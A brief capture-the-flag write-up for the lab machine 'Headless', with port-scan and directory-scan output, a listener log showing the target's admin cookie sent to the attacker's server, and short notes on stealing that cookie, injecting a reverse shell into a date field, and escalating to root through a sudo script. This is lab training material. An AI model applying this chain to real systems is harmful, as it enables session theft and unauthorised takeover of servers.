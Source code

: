 # nmap scan

```
$ nmapall headless.htb      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 10:41 MDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:41
Completed NSE at 10:41, 0.00s elapsed
Initiating NSE at 10:41
Completed NSE at 10:41, 0.00s elapsed
Initiating NSE at 10:41
Completed NSE at 10:41, 0.00s elapsed
Initiating SYN Stealth Scan at 10:41
Scanning headless.htb (10.129.245.0) [65535 ports]
Discovered open port 22/tcp on 10.129.245.0
Discovered open port 5000/tcp on 10.129.245.0
Completed SYN Stealth Scan at 10:41, 16.42s elapsed (65535 total ports)
Initiating Service scan at 10:41
Scanning 2 services on headless.htb (10.129.245.0)
Completed Service scan at 10:43, 93.24s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.245.0.
Initiating NSE at 10:43
Completed NSE at 10:43, 1.51s elapsed
Initiating NSE at 10:43
Completed NSE at 10:43, 1.06s elapsed
Initiating NSE at 10:43
Completed NSE at 10:43, 0.00s elapsed
Nmap scan report for headless.htb (10.129.245.0)
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Fri, 29 Mar 2024 16:41:44 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/29%Time=6606EF48%P=aarch64-unknown-linux
SF:-gnu%r(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\
SF:.2\.2\x20Python/3\.11\.2\r\nDate:\x20Fri,\x2029\x20Mar\x202024\x2016:41
SF::44\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-L
SF:ength:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPD
SF:WnvB_Zfs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n
SF:<html\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8
SF:\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Con
SF:struction</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-fa
SF:mily:\x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20display:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:justify-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(
SF:0,\x200,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!
SF:DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</hea
SF:d>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x
SF:20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x204
SF:00</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x
SF:20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>
SF:Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 10:43
Completed NSE at 10:43, 0.00s elapsed
Initiating NSE at 10:43
Completed NSE at 10:43, 0.00s elapsed
Initiating NSE at 10:43
Completed NSE at 10:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.52 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65535 (2.621MB)
```

# dirsearch

```
$ dirsearch -u http://headless.htb:5000 -w /usr/share/wordlists/dirb/big.txt

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                        
 (_||| _) (/_(_|| (_| )                                                                                                                                                                 
                                                                                                                                                                                        
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 20469

Output File: /home/parallels/projects/machines/reports/http_headless.htb_5000/_24-03-29_11-19-37.txt

Target: http://headless.htb:5000/

[11:19:37] Starting:                                                                                                                                                                    
[11:20:05] 401 -  317B  - /dashboard                                        
[11:21:02] 200 -    2KB - /support                                          
                                                                             
Task Completed 
```

# use header to deliver thing

$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.133 - - [29/Mar/2024 11:41:34] "GET / HTTP/1.1" 200 -
10.10.14.133 - - [29/Mar/2024 11:41:34] code 404, message File not found
10.10.14.133 - - [29/Mar/2024 11:41:34] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.133 - - [29/Mar/2024 11:42:32] "GET / HTTP/1.1" 200 -
10.129.245.0 - - [29/Mar/2024 11:43:18] "GET / HTTP/1.1" 200 -
10.129.245.0 - - [29/Mar/2024 11:44:20] code 404, message File not found
10.129.245.0 - - [29/Mar/2024 11:44:20] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
10.129.245.0 - - [29/Mar/2024 11:44:22] code 404, message File not found
10.129.245.0 - - [29/Mar/2024 11:44:22] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
10.129.245.0 - - [29/Mar/2024 11:44:24] code 404, message File not found
10.129.245.0 - - [29/Mar/2024 11:44:24] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
10.10.14.133 - - [29/Mar/2024 11:44:37] "GET / HTTP/1.1" 200 -

Use that admin cookie to get to /dashboard, then on the report tab, use burp to add `;<rev shell>` to date to get user

added rev shell to `init.db` and run syscheck as sudo and get root flag
